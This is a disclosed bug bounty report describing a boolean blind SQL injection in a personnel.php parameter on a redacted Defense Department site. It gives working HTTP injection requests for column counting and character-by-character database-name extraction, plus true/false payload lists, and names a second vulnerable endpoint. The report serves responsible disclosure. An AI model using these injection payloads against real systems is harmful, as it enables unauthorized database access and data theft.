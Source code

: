 # [████████] Boolean SQL Injection (/personnel.php?content=profile&rcnum=*)

## Report Details
- **Report ID**: 648346
- **URL**: https://hackerone.com/reports/648346
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-07-17T21:14:23.939Z
- **Disclosed**: 2019-12-02T19:24:22.442Z

## Reporter
- **Username**: jarvis0x1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
In this report, I want to describe a dangerous SQL injection, with the help of which I was able to extract certain data from the database.  

I used the insights from this report #648222. Using the bug from the aforementioned report, I could find this endpoint and done SQL injection.

### Steps to reproduce
1) Use this request:

```
GET /personnel.php?content=profile&rcnum=rc12346'+++and+(select++substr(database(),1,1)++=++'c')+and+'1'='1 HTTP/1.1
Host: ███████
Connection: close


```

Text for find
```ame='firstName' minlength='1' maxlength='20' size='15' value='```

If sql expression is successful, the answer will be ```True```:
█████████

If not success ```False```:
██████

Payloads, what response ```True```:
```
2=2
true
'test'='test'
len('12345')=5
2*4*3=8*3
```

Paylods, what response ```False```:
```
1=2
false
'test'='admin'
len('12345')=10
2*3*4=3*4
```

3) Then I try to extract number of colums in current table:

```
GET /personnel.php?content=profile&rcnum=rc12346'+order+by+49--+ HTTP/1.1
Host: █████████
Connection: close


```

Then I try to extract length of DB using this request. 

Length of DB by payload is ```39```:
```
GET /personnel.php?content=profile&rcnum=rc12346'+++and++(select+length(database())+=+39+)++and+'1'='1 HTTP/1.1
Host: ████████
Connection: close


```

Then I try to extract name of DB using this request:

```
GET /personnel.php?content=profile&rcnum=rc12346'+++and+(select++substr(database(),1,1)++=++'c')+and+'1'='1 HTTP/1.1
Host: ███
Connection: close


```

First symbol:
█████

Second:
█████████

3 symbols:
```
GET /personnel.php?content=profile&rcnum=rc12346'+++and+(select++substr(database(),1,3)='cf_')+and+'1'='1 HTTP/1.1
Host: █████████
Connection: close


```
Full db name is ```█████████```



# Attention!

I want to draw your attention that I have already found sql injection on this site. This report is #512693.
Vulnerability in the report specified by me is performed only from an authorized user. Last time, your team could not validate this vulnerability due to the fact that the developers made changes to the site very quickly. But this vulnerability still exists! This vulnerability in another endpoint (other part of site load for user, endpoint is ```personnel.php?content=training&folder=FA_CERT&item=*&rcnum=rc22752```) and available only for authorized users.  Please send this vulnerability for review to developers, having previously triage it.

In the current report, I gave evidence that my last report #512693 is also valid. I hope for your understanding.

## Impact

Without sufficient removal or quoting of SQL syntax in user-controllable inputs, the generated SQL query can cause those inputs to be interpreted as SQL instead of ordinary user data. This can be used to alter query logic to bypass security checks, or to insert additional statements that modify the back-end database, possibly including execution of system commands.

## Attachments
No attachments

